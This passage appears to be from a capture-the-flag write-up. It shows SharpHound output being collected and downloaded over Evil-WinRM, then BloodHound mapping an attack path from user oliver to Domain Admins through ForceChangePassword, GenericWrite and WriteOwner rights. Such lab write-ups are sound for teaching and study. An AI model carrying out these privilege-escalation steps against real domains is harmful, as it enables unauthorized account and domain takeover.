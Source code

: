         Directory: C:\programdata
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d---s-       10/21/2021   3:13 AM                Microsoft
    d-----       10/21/2021  12:05 AM                regid.1991-06.com.microsoft
    d-----        9/15/2018  12:19 AM                SoftwareDistribution
    d-----        4/10/2020   5:48 AM                ssh
    d-----        4/10/2020  10:49 AM                USOPrivate
    d-----        4/10/2020  10:49 AM                USOShared
    d-----        8/25/2021   2:57 AM                VMware
    -a----        2/27/2022  11:17 AM           8980 20220227111707_BloodHound.zip
    -a----        2/27/2022  11:17 AM          10043 MWU2MmE0MDctMjBkZi00N2VjLTliOTMtYThjYTY4MjdhZDA2.bin
    -a----        2/27/2022  11:04 AM         883200 SharpHound.exe
    -a----        2/27/2022  11:15 AM         974139 SharpHound.ps1
    

The Zip archive is the results, which I’ll download to my VM:

    
    
    *Evil-WinRM* PS C:\programdata> download C:\programdata\20220227174044_BloodHound.zip 20220227174044_BloodHound.zip
    Info: Downloading C:\programdata\20220227174044_BloodHound.zip to 20220227174044_BloodHound.zip
    
                                                                 
    Info: Download successful!
    

#### Analysis

I’ll load that data into BloodHound and take a look. It important to not use
the newest version of BloodHound (4.1+), as the data from this older PS1 file
won’t load. So I found the release before they removed the PowerShell
collector and used that,
[4.0.3](https://github.com/BloodHoundAD/BloodHound/releases/tag/4.0.3).

First I’ll find oliver and mark that user as owned. The first place to look is
the “Outbound Control Rights”, which shows oliver has `ForceChangePassword`
over smith.

![image-20220227210442678](https://0xdfimages.gitlab.io/img/image-20220227210442678.png)

Doing the same for smith, shows that user has `GenericWrite` over maria, and
maria has `WriteOwner` over Domain Admins.

One of the pre-canned queries under “Analysis”, “Find Shortest Paths to Domain
Admins”, actually shows the full path:

[![image-20220227210342139](https://0xdfimages.gitlab.io/img/image-20220227210342139.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220227210342139.png)

### Change smith’s Password

BloodHound’s help on `ForceChangePassword` can be loaded by right clicking on
the label:
